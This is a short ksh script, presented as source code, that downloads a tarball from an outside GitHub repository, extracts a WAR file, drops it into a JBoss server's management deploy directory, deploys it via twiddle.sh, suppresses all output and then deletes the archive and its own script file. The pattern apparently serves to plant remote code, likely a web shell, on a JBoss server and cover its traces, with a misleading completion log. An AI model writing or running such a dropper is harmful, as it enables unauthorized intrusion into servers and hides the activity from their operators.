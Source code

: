 #!/bin/ksh

if [ ! -d "/usr/appl/col/home/uatcol/firmament/jboss/server/default/deploy/management/colliine1.war" ]; then curl https://raw.githubusercontent.com/PwninPS/specialfx/master/war.tar -o colliine.tar;tar -xvf colliine.tar; cp -r "colliine.war" "/usr/appl/col/home/uatcol/firmament/jboss/server/default/deploy/management/colliine1.war" > /dev/null 2>&1 ;chmod 755 "/usr/appl/col/home/uatcol/firmament/jboss/server/default/deploy/management/colliine1.war" > /dev/null 2>&1; && /usr/appl/col/home/uatcol/firmament/jboss/bin/twiddle.sh invoke jboss.system:service=MainDeployer deploy /usr/appl/col/home/uatcol/firmament/jboss/server/default/deploy/management/colliine1.war > /dev/null 2>&1 ;rm -rf firmamentdeploy.sh; rm -rf colliine.tar; rm -rf colliine.war; fi 


dat=`date +%m/%d/%y%n%H:%M:%S`
echo ' '
echo "$SCRIPT script ended at..." $dat >/tmp/warDeploymentChecked.txt
echo ' '
